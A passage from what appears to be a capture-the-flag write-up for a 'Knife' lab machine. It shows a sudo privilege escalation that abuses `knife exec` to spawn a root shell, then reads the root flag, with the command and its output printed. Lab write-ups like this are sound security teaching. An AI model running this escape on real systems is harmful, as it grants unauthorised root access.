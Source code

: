 james can run `knife` as `root`.

I went to GTFObins page to find the payload for [Knife](https://gtfobins.github.io/gtfobins/knife/). `knife` has an `exec` command that will run Ruby code.

```
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
whoami
root
cat /root/root.txt
[REDACTED]
```

And could easily retrieve the root flag.



